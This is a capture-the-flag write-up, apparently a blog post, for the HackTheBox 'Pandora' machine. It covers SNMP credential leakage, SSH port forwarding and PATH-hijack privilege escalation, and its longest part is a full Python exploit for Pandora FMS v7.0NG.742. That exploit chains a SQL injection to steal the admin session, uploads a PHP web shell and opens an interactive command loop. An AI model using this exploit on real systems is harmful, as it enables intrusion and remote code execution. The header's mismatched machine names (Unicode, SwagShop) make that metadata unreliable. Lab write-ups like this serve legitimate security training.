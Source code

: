 ```yaml
---
title: HackTheBox - Pandora
categories: htb SQLI RCE LPF
excerpt: | 
   Unicode is a easy difficulty Linux machine.

feature_text: |
  ## SwagShop - Easy 
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
nmap ip:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 26 21:44:59 2022 -- 1 IP address (1 host up) scanned in 11.43 seconds
```
This time we have a linux machine with two open ports and no way to attack. But it is important to scan UDP ports too. `nmap -sU --top-ports 100 10.10.11.136`
```
PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-processes: 
|   1: 
|     Name: systemd
|     Path: /sbin/init
|     Params: maybe-ubiquity
```
This list of snmp-processes contains credentials of daniel. An attacker could use it to stablish an ssh conection.



### Exploit vulnerabilities
Once the attacker is inside the web as admin and following the code, there is one section to upload files. Including a .php with a web shell, you will have a RCE. 
Looking for SUID permissions, there is a suspicious binary `/usr/bin/pandora_backaup` and only matt can run it. 

### Migrating of user
site-availables contains some log file named pandora.log. There are one domain running on a localhost:
```
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
```
All the attacker needs is to refer his port 80 to the port 80 of daniel. Local Port Forwarding (LPF) `ssh daniel@10.10.11.136 -L 80:127.0.0.1:80`. Taking a look of the localhost web, it is pandora `Pandora FMS v7.0NG.742` 

Get this code on [github](https://raw.githubusercontent.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/master/sqlpwn.py). From this code an attacker only needs the SQL Injection to get a PHPSESSID of the admin. Then, reloading the page, he will be admin. 

``` python
#!/usr/bin/python3
import requests
import argparse
import cmd

parser = argparse.ArgumentParser(description="Exploiting Sqlinjection To impersonate Admin")
parser.add_argument("-t","--target", help=" Host Ip for the Exploiting with target Port" ,required=True)
parser.add_argument("-f","--filename", help="Filename for Shell Upload with php extension",default='pwn.php' )

args = parser.parse_args()
host=args.target
file_name=args.filename
base_path=f'http://{host}/pandora_console'

#Exploit Injection
#http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=' union SELECT 1,2,'id_usuario|s:5:"admin";' as data -- SgGO

print(f"URL:  {base_path}")
print("[+] Sending Injection Payload")
r=requests.get(f'http://{host}/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO')

if r.status_code==200:
    print("[+] Requesting Session")
    Session_Cookie_Admin=r.cookies.get('PHPSESSID')
    print(f'[+] Admin Session Cookie : {Session_Cookie_Admin}')
else :
    print('[+] Error Receiving Admin Cookie , Make sure the url is right or Check the table name using SQLMAP and change the table name in the payload')
##################################################################################################
# Got Cookie now Proceed with Pwning
##################################################################################################
cookies = {
    'PHPSESSID': Session_Cookie_Admin,
}

headers = {
    'Host': host,
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'multipart/form-data; boundary=---------------------------308045185511758964171231871874',
    'Content-Length': '1289',
    'Connection': 'close',
    'Referer': f'http://{host}/pandora_console/index.php?sec=gsetup&sec2=godmode/setup/file_manager',
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-User': '?1',
}

params = (
    ('sec', 'gsetup'),
    ('sec2', 'godmode/setup/file_manager'),
)

data = f'-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="file"; filename="{file_name}"\r\nContent-Type: application/x-php\r\n\r\n<?php system($_GET[\'test\']);?>\n\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="umask"\r\n\r\n\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="decompress_sent"\r\n\r\n1\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="go"\r\n\r\nGo\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="real_directory"\r\n\r\n/var/www/pandora/pandora_console/images\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="directory"\r\n\r\nimages\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="hash"\r\n\r\n6427eed956c3b836eb0644629a183a9b\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="hash2"\r\n\r\n594175347dddf7a54cc03f6c6d0f04b4\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="upload_file_or_zip"\r\n\r\n1\r\n-----------------------------308045185511758964171231871874--\r\n'

print('[+] Sending Payload ')
response = requests.post(f'http://{host}/pandora_console/index.php', headers=headers, params=params, cookies=cookies, data=data, verify=False)
StatusCode=response.status_code
print(f'[+] Respose : {StatusCode}')

##################################################################################################
# Cmdline Class
class commandline_args(cmd.Cmd):
    prompt= "CMD > "
    def default(self,args):
        print(cmd_shell(args))

##################################################################################################
# Drop Interactive Shell
##################################################################################################

def cmd_shell(command):
    shell = requests.get(f'http://{host}/pandora_console/images/{file_name}?test={command}')
    return shell.text

try:
    print('[+] Pwned :)')
    print(f'[+] If you want manual Control : http://{host}/pandora_console/images/{file_name}?test=')
    commandline_args().cmdloop()
except KeyboardInterrupt:
    print('\n[+] Exiting!!!!')
    raise SystemExit
if not  StatusCode == 200:
    print('[+] Failed to Get Shell :(')
```


### Privilege Scalation
Get an interactive console of matt and examine pandora\_backup binary with `ltrace` and see what it is used with a relative path. Modifing the PATH you can do whatever you want with a comand `tar`
For example, file tar: /usr/bin/bash.

You get it! 
